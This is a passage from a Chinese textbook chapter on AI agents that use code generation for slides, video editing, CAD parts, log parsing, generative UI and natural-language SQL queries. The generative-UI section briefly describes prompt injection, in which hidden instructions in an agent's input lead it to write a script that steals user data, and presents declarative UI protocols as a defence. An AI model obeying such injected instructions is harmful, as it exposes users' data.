三重保障由此完整：(1) 系統提示詞的自然語言規則幫助理解和解釋；(2) 工具描述與參數設計作為 checklist，引導模型在呼叫前顯式核對條件；(3) 服務端基於資料庫真值的程式碼化校驗作為最後守門員。前兩重減少錯誤的發生，第三重確保錯誤不會變成不可逆的損失。
實驗 5-5 ★★：小模型透過程式碼化知識提升執行規則的準確性
實驗目標：驗證小參數量模型（Qwen3-4B）透過程式碼化業務規則顯著提升複雜政策執行的準確性和一致性。
技術方案：基於 τ-bench 航空客服場景設計對照實驗。控制組：純自然語言規則，依賴模型自身思考。實驗組：三重保障——系統提示詞保留自然語言規則；工具描述列出完整政策，並以可選的
expected_*參數引導模型呼叫前逐條核對（checklist）；工具內部基於模擬資料庫真值的程式碼化校驗（政策事實一律查庫獲取、時間取服務端時鐘，不採信模型自報參數）。評測指標：任務成功率、政策違規次數、無效工具呼叫次數、使用者體驗。預期結果：實驗組顯著優於控制組。觀察到模型在準備參數時就自主識別違規操作，直接向使用者提議替代方案，驗證「參數作為 checklist」的有效性；同時統計
expected_*自報值與資料庫真值不一致的比例，驗證「服務端真值校驗」攔截錯誤認知的必要。
程式碼驅動的多媒體生成
許多複雜文件的創作本質上是結構化資料的組織和呈現。無論是簡報、技術報告還是互動式應用，底層都由程式碼定義——HTML 描述結構，CSS 控制樣式，JavaScript 實現互動。傳統的文件創作依賴 GUI 介面的所見即所得編輯，但對 Agent 來說既不直觀也不高效，因為 GUI 操作需要視覺理解和精確的座標定位。透過程式碼生成，Agent 繞開了視覺定位難題，獲得對文件的精確控制能力——每個元素的位置、樣式、內容都是明確定義的，可以用程式化的方式修改和最佳化。
PPT 生成 Agent。
PPT 創作往往耗時費力。一個典型的學術報告 PPT 可能包含數十頁投影片，每頁都需精心設計佈局、提煉要點、選配圖表。如果將 PPT 創作重新框定為程式碼生成問題，就能極大簡化複雜度。現代 PPT 框架（如 Slidev）採用優雅的設計哲學：用 Markdown 和 HTML 定義演示內容。建立一頁投影片只需編寫簡潔的標記語言，框架自動處理渲染、佈局、動畫。對掌握了程式碼生成能力的 Agent 極其友好。

僅能生成程式碼還不夠。Agent 編寫完程式碼後並不知道實際渲染效果：內容是否太擠、文字是否溢位、圖片尺寸是否合適，這些只有真正渲染出來才能發現。因此需要引入提議者～審核者（Proposer-Reviewer）機制（如圖 5-5 所示），將程式碼編寫和品質評審解耦為兩個獨立 Agent：
- Proposer Agent 負責生成 Slidev 程式碼，理解內容邏輯結構並分解為合理頁面
- Reviewer Agent 執行程式碼將每頁渲染為圖片，用 Vision LLM（能「看」懂圖片的多模態大模型）從內容密度、可讀性、佈局合理性、視覺美感等維度分析渲染結果，生成結構化的改進建議——不是模糊的「不好看」，而是具體可執行的指導（如「第 3 頁：內容過多，建議拆分」、「第 7 頁：程式碼塊字型過小，建議增大到 14pt」），包含頁碼、問題型別、嚴重程度等欄位
Proposer 接收回饋後理解意圖並修改程式碼，新版本再次提交 Reviewer 審查，迭代直到品質達標或達到最大次數（如 5 輪）。「品質達標」與「最大輪數」正是 Loop 工程要求的兩類顯式終止條件：前者由審核者判定目標達成，後者用預算上限防止迴圈失控。
本章的提議者～審核者迭代迴圈與第四章的事前審批應用同源——都是提議者～審核者範式的實例：生成與審查分離、雙模型獨立評估（用 Loop 工程的語言說，就是「製造者」與「驗證者」分離的子 Agent）。差異在目標與形態：第四章將其用於不可逆操作的安全審查，審核者對單次操作給出批准或否決；本章將其用於內容品質的迭代改進——多輪迴圈，且審核者接觸到提議者看不到的新資訊（渲染結果）。核心設計原則一脈相承（共享目標約束、使用不同模型家族降低同類錯誤機率、回饋作為特殊事件加入 Proposer 軌跡）。採用雙 Agent 分工而非單 Agent 迴圈的核心優勢在於上下文管理：Reviewer 每次只處理最新版本的渲染圖片，不受歷史版本干擾；Proposer 僅累積結構化文字回饋，token 消耗少且更易於推理。單 Agent 方案則需要在同一上下文中累積數十頁渲染圖片的多輪迭代，上下文迅速超限。這一機制將在後續的影片編輯和日誌視覺化實驗中重複使用；第十章將進一步探討提議者～審核者之外的其他多 Agent 協作模式。
實驗 5-6 ★★：基於論文的 PPT 自動生成
實驗目標：從學術論文自動生成高品質簡報，驗證提議者～審核者機制在內容創作品質控制中的有效性。
技術方案：使用 Slidev 框架。Proposer Agent 閱讀論文 PDF，提取章節結構、核心論點和圖表，規劃 PPT 結構，逐頁生成 Slidev 程式碼。關鍵步驟：Reviewer Agent 渲染每頁截圖，用 Vision LLM 檢查渲染效果，識別文字溢位、內容擁擠、圖片尺寸不當等問題，生成結構化改進建議。迭代直到效果達標。
驗收標準：生成 10-20 頁 PPT，覆蓋論文主要貢獻。至少 3 處原圖表且與文字說明匹配。渲染無文字溢位、佈局合理。對比單 Agent 自我審查 vs 提議者～審核者分工在上下文消耗和生成品質方面的差異。
實驗 5-7 ★★：論文講解影片的自動生成
實驗目標：擴展 PPT 生成能力，結合視覺和聽覺通道實現影片講解自動生成。
技術方案：基於實驗 5-6 的 PPT 生成流程，Agent 同時生成每頁的口語化講解文字（引導性敘述而非複述），呼叫 TTS（文字轉語音）合成語音，用 ffmpeg 將 PPT 截圖與音訊同步合成影片。
驗收標準：影片 5-15 分鐘，每頁展示時間與語音時長精確匹配，講解內容與視覺元素呼應。

影片編輯 Agent。
用通用 Computer Use 做影片編輯面臨根本挑戰：影片剪輯軟體 GUI 極其複雜，包含大量時間軸、圖層、效果面板，Agent 需要精確定位這些介面元素並透過滑鼠鍵盤操作編輯，精確輸出座標非常困難。
把影片編輯重構為 API 呼叫和程式碼生成問題則大幅降低了複雜度。許多專業軟體（如 Blender——開源的 3D 創作與影片合成工具，支援 Python 指令碼控制；FFmpeg——音影片處理領域的命令列瑞士軍刀）提供了程式化 API 介面，以結構化、可組合的方式暴露核心功能。例如 Blender Python API 允許透過程式碼精確控制影片片段的匯入、裁剪、排列、過渡效果、音訊混合等操作，每個操作對應一個清晰的函式呼叫。對 Agent 而言，將自然語言需求轉化為 API 呼叫，遠比理解 GUI 介面並模擬滑鼠點選容易得多。與 PPT 生成類似，影片編輯同樣採用提議者～審核者機制——Proposer Agent 生成 Blender 指令碼，Reviewer Agent 渲染關鍵幀並用 Vision LLM 檢查效果，回饋修改建議。
實驗 5-8 ★★：基於 API 的智慧影片剪輯
實驗目標：驗證 Agent 透過生成 Blender Python API 程式碼實現影片編輯的能力，評估基於視覺回饋的提議者～審核者機制在多媒體內容處理中的作用。
核心挑戰：理解使用者的自然語言編輯需求並轉化為精確的 API 呼叫序列，處理多種編輯操作（剪輯、合併、字幕、音軌混合、視覺效果），確保生成的 Python 指令碼正確執行。Proposer Agent 編寫程式碼後無法直接判斷影片效果，必須透過 Reviewer Agent 渲染並利用 Vision LLM 檢查關鍵幀。
技術方案：使用者提供影片素材（如包含衝浪、徒步、滑雪等場景的原始素材）並以自然語言描述需求（如 「把衝浪部分剪出來」）。Proposer Agent 透過影片分析子 Agent 採用兩步定位策略：
第一步，粗粒度定位：呼叫子 Agent 傳入影片路徑、每 10 秒截圖間隔、目標問題。子 Agent 用 ffmpeg 擷取關鍵幀，將所有截圖連同問題輸入 Vision LLM，返回場景區間（如 「衝浪在第 40-110 秒」）。
第二步，精細粒度定位：以更窄範圍、每秒截圖密度再次呼叫子 Agent，精確定位邊界時間點。
將影片分析封裝為子 Agent 避免大量截圖佔用主 Agent 上下文。定位後生成 Blender API 指令碼。Reviewer Agent 執行快速預覽，檢查關鍵幀並回饋修改建議，迭代直到達標再完整渲染。
驗收標準：Agent 能準確識別影片中不同場景，根據自然語言指令正確生成剪輯指令碼。起始和結束點位置準確（誤差不超過 3 秒）。如指令包含特效要求（慢動作、轉場、字幕），生成的影片正確應用效果。Reviewer Agent 能偵測明顯錯誤（遺漏關鍵內容、包含無關片段）並觸發修正。最終輸出影片檔案格式正確、畫質符合預期。
3D 與工業零件：程式碼生成與生成模型的邊界。
同樣是「生成一個東西」，Agent 面前有兩條路：一條是寫程式碼精確構造（CadQuery、OpenSCAD、Blender API），另一條是直接呼叫 3D 生成模型（混元 3D 這類 text/image-to-3D 模型，和文生圖同屬 diffusion 一系）。很多人糾結：到底什麼時候該用程式碼生成，什麼時候該用圖片/3D 生成模型？
一看產物有沒有緊湊的精確描述。 工業零件天然有緊湊的精確描述。一個法蘭盤，外徑、厚度、孔位圓直徑、孔徑、孔數，五六個參數就完整定義了，程式碼是它的無損表達。一盆綠植、一塊太湖石、一張人臉就不一樣了——它們有數不清的細節，內在複雜度是近乎無限的。
二看精度要求和可驗證性。 零件的每個尺寸都是硬約束——孔徑 5mm、公差 ±0.05mm，差一絲就是廢品。程式碼生成的零件可以程式化驗證：載入網格，量出外徑、孔位，跟規格逐項對一遍。而 3D 生成模型生成的零件無法直接跟規格核對。
兩條路還有一個更實際的差別：表示形式和可編輯性。製造流程要的是 B-rep（邊界表示）參數化實體——STEP 檔案裡存著特徵樹和尺寸參數，可以直接驅動 CNC 加工。3D 生成模型吐出來的則是三角面片網格：曲面靠無數細碎面片逼近，放大看坑坑窪窪。等甲方說一句「安裝孔從 M5 改成 M6」，差別就見分曉了：程式碼路線改一個數字重跑一遍，其餘尺寸分毫不差；生成模型路線只能整個重新生成——別的尺寸會不會跟著跑偏，全憑運氣。
所以，走哪條路本身就是 Agent 要做的一次決策：掂量產物的內在複雜度和精度要求，把任務分給程式碼生成或者 3D 生成模型。實際系統裡兩條路還可以混著走——幾何體用程式碼參數化生成，表面紋理交給生成模型，各取所長。
實驗 5-9 ★★：同一個零件的兩種生成路線——程式碼與生成模型
實驗目標：拿同一個帶尺寸規格的機械零件，對比程式碼生成與 3D 生成模型兩條路線在尺寸精度、可編輯性和製造可用性上的差異，驗證「按內在複雜度與精度要求選路」的判斷框架。
技術方案：帶明確規格的自然語言需求（如「法蘭盤，外徑 80mm，厚度 10mm，4 個均佈 M5 安裝孔，孔位圓直徑 60mm」）。路線 A：Agent 編寫 CadQuery（或 OpenSCAD）程式碼構造零件，匯出 STEP 與 STL。路線 B：把同一規格交給 3D 生成模型（如混元 3D），得到三角面片網格。程式化驗證：測量兩條路線產物的關鍵尺寸（外徑、厚度、孔位、孔徑）與規格的偏差，並檢查安裝面的平整度。
隨後發出變更請求「安裝孔從 M5 改為 M6」，記錄兩條路線各自的修改成本——程式碼路線改一個參數重新執行，生成模型路線只能整體重新生成，其餘尺寸是否保持不變無法保證。
對照組：生成一盆綠植，兩條路線的優劣正好反轉——程式碼路線即便加入程式化噪聲也僵硬呆板，生成模型路線則自然生動。
程式碼作為系統介面卡
前幾節的程式碼大多產出「面向人」的東西——報告、投影片、介面。這一節的程式碼指向另一個方向：連線機器與機器。真實系統裡，Agent 要打交道的外部服務常常沒有現成 SDK，介面也未必規範——文件缺失、返回格式非標準、欄位隨版本漂移。面對這種情況，Agent 不必等人預先寫好適配層，而是當場讀介面文件、或直接觀察一兩條真實響應，即時生成適配程式碼：構造 HTTP 用戶端、拼裝鑑權頭、解析非標準的返回結構、把上游的資料模型翻譯成下游能消費的形狀。程式碼在這裡成了連線任意系統的「萬能膠」——哪裡接不上，就現場生成一段膠水補上，這正是元能力「系統介面」方向的核心。下面要展開的日誌適應性解析，是這一能力在可觀測性場景下的具體化：面對不斷演化的日誌格式，Agent 同樣靠現場生成解析程式碼來適配。
這種「萬能膠」還能延伸到完全沒有 API 的系統：當外部系統只暴露圖形介面時，Agent 可以先透過 Computer Use（第六章將詳細介紹）操作介面，再把成功完成的操作序列用程式碼固化為 RPA 工具——未來執行相同任務時直接執行程式碼，以極高的速度和穩定性完成操作，無需再呼叫昂貴的視覺思考。可以說，RPA 是「系統介面卡」在無介面系統上的極端形態；這種「工作流錄製與固化」機制將在第九章展開。
資料處理是軟體系統中最常見但也最令人頭疼的任務之一。根源在於資料格式的多樣性和不斷變化。同一系統在演化過程中可能多次修改資料格式——新增新欄位、改變巢狀結構、引入新型別。為每種格式手寫解析程式碼，維護成本極高，每次格式修改都需要更新解析邏輯、測試相容性、部署新版本。
程式碼生成提供了一種全新思路：讓 Agent 在遇到新格式時基於樣本資料臨時生成解析程式碼，系統自動適應資料格式的演化，無需人工干預。
Agent 日誌解析和視覺化。
Agent 系統的可觀測性依賴於對執行流程的視覺化。一個複雜的 Agent 任務可能包含數百步操作，涉及多次 LLM 呼叫、數十個工具執行、多個子 Agent 互動。視覺化這些資料面臨多重挑戰：不同工具返回不同結構的資料，格式隨系統迭代不斷演化；一個完整軌跡可能包含數十萬字元，需要在概覽和細節之間找到平衡。
程式碼生成提供了一種優雅的解決方案：建立一個自動修復的回饋迴圈。當前端遇到無法解析的日誌格式時，不是顯示錯誤，而是自動將失敗資訊（原始日誌樣本、詳細報錯）報告給 Agent。Agent 分析樣本資料結構，生成能正確解析的前端程式碼。程式碼先在虛擬瀏覽器中自動測試（驗證解析正確性，用 Vision LLM 檢查視覺化效果），透過後熱更新到前端系統。
實驗 5-10 ★★★：適應性的日誌解析系統
實驗目標：建構能自我進化的 Agent 日誌視覺化系統。
技術方案：初始系統僅支援基本格式。前端偵測解析失敗→報告 Agent→生成解析程式碼→虛擬瀏覽器測試→熱更新部署。全流程自動化。
驗收標準：自動偵測失敗並觸發學習，生成程式碼透過自動測試，熱更新後正確解析新格式。
Agent 執行日誌自動分析和問題診斷。
生產環境的 Agent 會產生大量軌跡日誌（trajectory，記錄每次任務的完整過程）。然而從日誌中識別問題、定位根因、建構測試用例是一項高成本的工作。問題定位困難，因為任務失敗可能由多個模組的協同錯誤導致；重現成本高，因為生產環境的複雜性難以在測試環境中模擬；已修復的問題容易反覆出現，因為缺乏系統化的迴歸測試。
程式碼生成為診斷提供了自動化路徑。Agent 可以讀取生產日誌，結合架構文件和 PRD（產品需求文件）自動判斷執行流程是否符合預期，定位出問題的環節和模組。基於分析結果生成結構化問題報告（優先順序、模組、描述、改進建議）和迴歸測試用例——測試用例引用問題軌跡 ID 和關鍵互動輪次，測試框架自動重放來驗證修復後的系統在相同輸入下能否產生正確行為。最後 Agent 透過 MCP 對接 GitHub 建立 Issue 並分配給相關開發者，完成從問題發現到任務分派的全自動化。
實驗 5-11 ★★★：生產日誌的智慧診斷系統
實驗目標：從生產軌跡中自動發現問題、生成測試用例、建立工作項。
技術方案：Agent 讀取生產環境的軌跡集合，結合系統架構文件和 PRD 分析：識別問題模式，定位涉及的模組。生成結構化問題報告（優先順序、模組、描述、改進建議）。自動生成迴歸測試用例（引用軌跡 ID 和互動輪次，由測試框架自動重放驗證）。透過 MCP 對接 GitHub 自動建立 Issue。

程式碼作為生成式 UI
傳統 Agent 系統主要依賴純文字對話與使用者互動。然而文字作為線性、單一的互動方式，在很多場景下效率低下。需要收集結構化資訊時，反覆問答讓對話變得冗長；需要呈現複雜資料關係時，純文字的表達力有限；需要讓使用者在多個選項中選擇時，文字列表遠不如視覺化介面直觀。
程式碼生成為突破這些限制提供了可能：Agent 可以動態生成表單、互動式圖表甚至完整的 Web 應用，將靜態文字對話升級為豐富的多模態互動。這種由 Agent 動態生成介面的模式被稱為生成式 UI（Generative UI）。
A2UI 類協定：生成式 UI 的標準化。
當 Agent 直接生成 HTML 和 JavaScript 程式碼作為 UI 時，存在一個根本性的安全問題：生成的程式碼可能包含惡意內容。例如，如果有人在輸入中故意藏了一段指令，Agent 可能被提示注入操縱、不知不覺地生成一段會偷偷竊取使用者資料的指令碼。這裡要釐清因果：成因是提示注入（惡意指令混進了 Agent 的輸入），而最終在瀏覽器裡執行惡意指令碼、竊取資料的效果則類似傳統 Web 的 XSS（Cross-Site Scripting，跨站指令碼攻擊）——不能把整個攻擊直接叫作 XSS。以 A2UI（Agent-to-User Interface）為代表的宣告式介面協定提供了一種更安全的方向：Agent 不直接生成可執行的程式碼，而是只輸出一份「介面描述清單」（JSON 格式），比如「請顯示一個包含 3 行 2 列的表格，標題是「銷售資料」」。用戶端收到這份清單後，用自己準備好的安全元件來渲染介面。這就像餐廳的選單：顧客（Agent）只能點選單上有的菜（預定義的元件），而不能走進廚房自己做（執行任意程式碼）。這裡要釐清一個常見混淆：AG-UI（Agent-User Interaction，CopilotKit 提出）雖然名字相近，卻並不是一種介面描述語言，而是配套的事件/傳輸協議，負責把 Agent 的執行狀態（訊息、工具呼叫、狀態補丁）流式推送到前端，它本身甚至可以承載 A2UI 這樣的介面載荷。因此二者互補而非同類，不應並列為同一種「宣告式介面協定」。
這類協定的核心設計原則是安全優先：用戶端維護一個受信任的元件目錄（如 Card、Button、TextField、Table），Agent 只能請求渲染目錄中已有的元件，無法注入任意程式碼。用戶端用自己的原生元件渲染，而不是執行 Agent 生成的任意 HTML。這類協定通常還會支援跨平臺（同一份描述在 React、Flutter、原生應用中渲染）和增量生成（流式 JSONL 格式，邊接收邊渲染）。
當然，宣告式方法適用於標準化的互動場景（表單、表格、卡片），而對於高度定製化的需求（如自訂視覺化、遊戲介面），直接生成程式碼仍然是更靈活的選擇。下面展示兩種模式的具體應用。
用 HTML 交付成果：取代 Markdown 彙報。 生成式 UI 不只用在互動過程中，也正在改變 Agent 最終交付成果的形態。傳統上，Agent 幹完一項任務後往往產出一份 Markdown 彙報文件；但一頁頁翻讀線性排布的 Markdown 其實並不好讀。隨著 Agent 生成前端程式碼的能力越來越強，越來越多的實踐改為讓它直接產出 HTML。相比 Markdown，HTML 交付件有幾個明顯的優勢。其一是互動式演示：可以用可操作的形式直接演示系統是如何執行的，使用者往往一看就懂，勝過大段文字描述。其二是更好的資料視覺化：用圖表而非表格來呈現資料，還能建構互動式元件，讓使用者自行瀏覽、篩選、下鑽到自己關心的細節。其三是可持續完善的交付件：HTML 網站不必是任務結束時才拋棄式產出的死物，而可以在工作推進的過程中，由 Agent 不斷補充和完善。
以筆者自己寫論文的經歷為例：每個研究專案筆者都會維護一個互動式網站[3]，它既是最終的交付件，更是研究過程中的一份活文件——筆者會讓 Agent 隨著實驗的推進持續更新它。這個網站至少承擔三類作用。其一是實驗資料追溯：每一次實驗的具體資料、所用的 prompt 以及 LLM 的原始回覆，都能在網站上逐條檢視；把這些攤開來，反而更容易發現資料構造、資料格式、資料分佈上的問題，也更容易看出 LLM 的回覆和 judge 的打分是否存在系統性偏差。其二是訓練指標監控：把訓練過程中的各條曲線直接列在網頁上，方便隨時確認模型的內科指標是否健康。這裡借用醫學裡「內科」的說法——內科指標指的是反映訓練過程本身是否正常的內部訊號，例如訓練損失與驗證損失、梯度範數、學習率、模型輸出 token 時的困惑度（perplexity，衡量模型對自己生成內容的「把握」程度），以及強化學習中的獎勵、KL 散度、策略熵等。它們不同於任務準確率那類最終的結果指標：正如體檢時的各項生理指標之於一個人的外在表現，內科指標往往能更早地暴露出損失不收斂、梯度爆炸、訓練崩潰等問題。其三是執行原理展示：用視覺化的方式把整個系統的執行原理呈現出來，讓人一眼就能看清這個由 AI 搭起來的系統到底是什麼結構。
澄清使用者意圖。
當使用者需求表達模糊或不完整時，Agent 需要透過澄清問題來收集必要資訊。OpenAI Deep Research 等產品通常採用文字問答方式，但這存在明顯侷限：效率上，每個問題需要一輪對話，十個澄清點就需要十輪互動；表達力上，某些問題之間存在依賴關係（比如「選擇旅行目的地」會影響「交通方式」的可選項），純文字難以表達這種級聯關係。
透過程式碼生成，Agent 可以建立結構化的互動介面來替代文字問答。圖 5-8 展示了動態表單生成流程，說明 Agent 如何把澄清問題轉化為拋棄式填寫的結構化介面。Agent 生成包含各種輸入控制項的 HTML 表單——文字框收集開放性資訊、下拉選單讓使用者在預定義選項中選擇、核取方塊允許多選、日期選擇器簡化時間輸入。更進一步，Agent 可以生成級聯表單——透過 JavaScript 實現動態邏輯：選擇某選項後自動顯示或隱藏後續問題，動態更新可選項。使用者一次填寫完整個表單，無需多輪對話，還能清晰看到所有需填寫的資訊和問題之間的邏輯關係。

實驗 5-12 ★★：動態表單生成的意圖澄清系統
實驗目標：驗證 Agent 透過動態生成 HTML 表單澄清使用者意圖的能力。
技術方案：Agent 分析使用者請求，識別澄清點，生成含級聯邏輯的表單程式碼。前端渲染，使用者一次提交，Agent 解析 JSON 資料繼續任務。
驗收標準：使用者輸入 「我想訂一張去北京的機票」，Agent 生成表單包含：出發城市（文字輸入）、出發日期（日期選擇器）、旅行型別（單選：單程/往返）、返程日期（僅選擇 「往返」 時顯示）。使用者一次提交完成所有資訊。
生成 SQL 查詢。
資料庫查詢是程式碼生成能顯著提升互動體驗的場景。傳統的資料庫訪問依賴 GUI 工具或手寫 SQL，前者操作繁瑣，後者要求使用者具備專業知識。Agent 可以將自然語言轉為 SQL，但這裡有一個關鍵的設計選擇：是讓 Agent 執行 SQL 後用自然語言描述結果，還是讓 Agent 生成 SQL 程式碼作為 artifact 由前端直接執行？
第一種方案看似更「智慧」，但效率極低——查詢結果可能包含數千行大表格，讓 LLM 閱讀後用文字描述不僅消耗大量 token、耗時長，更嚴重的是 LLM「抄寫」資料時非常容易出錯。更好的方案是 Artifact 模式。圖 5-9 展示了 SQL 查詢 Agent 的工作流程：Agent 不自己讀資料，而是生成一段 SQL 查詢程式碼，把這段程式碼作為一個獨立的可執行產物（artifact）交給系統。系統拿著這段 SQL 直接去資料庫查詢，把查到的資料渲染成使用者能看到的表格。整個過程中，資料從資料庫直達使用者介面，完全繞過了 LLM 這個「中間人」——LLM 只負責寫查詢語句，不需要親自去讀成千上萬行資料再複述給使用者，既快速又準確。
生成的 SQL 和視覺化程式碼不得直接執行。執行層應使用唯讀資料庫憑證，解析 SQL，只允許核准的 SELECT 語句，並拒絕 DDL、DML 與多語句查詢。使用者提供的值應由伺服器端參數繫結，同時限制查詢時間、返回行數、可存取的資料表和日期範圍。視覺化程式碼應在與網路和檔案系統隔離的沙盒中執行，且只能產生核准的結果格式。Artifact 模式縮短了資料路徑，但不能取代授權檢查與執行隔離。

更進一步，Agent 可以生成兩個 artifact 形成流水線：SQL 查詢 + 視覺化程式碼（如柱狀圖）。前端將 SQL 結果直接傳給視覺化程式碼，LLM 只負責生成程式碼，不參與資料傳遞——這正是程式碼生成作為介面的精髓。
實驗 5-13 ★★：自然語言互動的 ERP Agent
ERP（企業資源規劃）軟體是企業的關鍵系統，目前一般使用 GUI 介面，複雜操作需多次滑鼠點選。AI Agent 可將使用者自然語言查詢轉換成 SQL 語句，實現自動化查詢。
要求建立 PostgreSQL 資料庫，包含兩個表：(1) 員工表，包含員工 ID、姓名、部門、級別、入職日期、離職日期（空表示在職）；(2) 工資表，包含員工 ID、發薪日期、工資（每月一條記錄）。Agent 自動回答：
- 平均每個員工在職多久？
- 每個部門有多少在職員工？
- 哪個部門員工平均級別最高？
- 每個部門今年和去年各新入職多少人？
- 前年 3 月到去年 5 月，A 部門的平均工資？
- 去年 A 部門和 B 部門的平均工資哪個高？
- 今年每個級別的員工平均工資？
- 入職一年內、一到兩年、兩到三年的員工最近一個月平均工資？
- 去年到今年漲薪幅度最大的 10 位員工？
- 有沒有拖欠工資（某月在職但未發薪）？
動態生成軟體。
程式碼生成能力的終極應用是讓 Agent 完全動態地、從零開始建立軟體。Anthropic 的「Imagine with Claude」展示了這種可能的邊界：使用者提出需求，Claude 即時生成前端介面和互動邏輯，使用者與生成的軟體互動，Claude 修改程式碼生成新介面展示操作結果。整個過程中使用者看到一個從無到有、持續演化的應用程式。
不過，這種完全動態生成的模式成本和延遲較高，更適合作為展示能力邊界的實驗。一個更務實的方向是基於已有框架進行定製化修改。這種「半定製」模式保留基礎軟體的穩定性，同時在特定維度上開放使用者控制權——使用者說「把按鈕改成藍色」「在側邊欄新增快捷選單」「修改字型為更易讀的樣式」，Agent 理解需求並修改前端程式碼，熱載入（HMR，Hot Module Replacement，局部熱替換、保留應用狀態、無需整頁重新整理即可生效）即時生效。這將「一刀切」的標準產品轉變為「千人千面」的個人化體驗。
